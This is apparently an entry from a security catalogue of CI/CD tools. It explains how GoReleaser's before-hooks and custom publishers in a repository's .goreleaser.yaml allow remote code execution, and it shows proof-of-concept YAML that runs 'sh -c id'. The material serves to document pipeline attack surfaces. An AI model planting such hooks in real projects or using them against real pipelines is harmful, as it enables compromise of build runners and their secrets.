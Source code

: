 ```yaml
---
title: GoReleaser
tags:
  - cli
  - config-file
  - eval-sh
references: 
- https://goreleaser.com/customization/hooks/
- https://goreleaser.com/customization/publishers/#how-it-works
files: [.goreleaser.yaml]
---
```


`goreleaser` and its github action `goreleaser/goreleaser-action` is configure using a local `.goreleaser.yaml`.

## build

`goreleaser build` allows RCE via hooks:

```yaml
before:
  hooks:
    - sh -c "id"
```

## release

`goreleaser release` allows RCE via hooks and custom publishers:

```yaml
before:
  hooks:
    - sh -c "id"
publishers:
  - name: poc
    cmd: sh -c "id"
```

*Note: `publishers` requires a new tag, which should be already defined if a workflow uses `goreleaser`
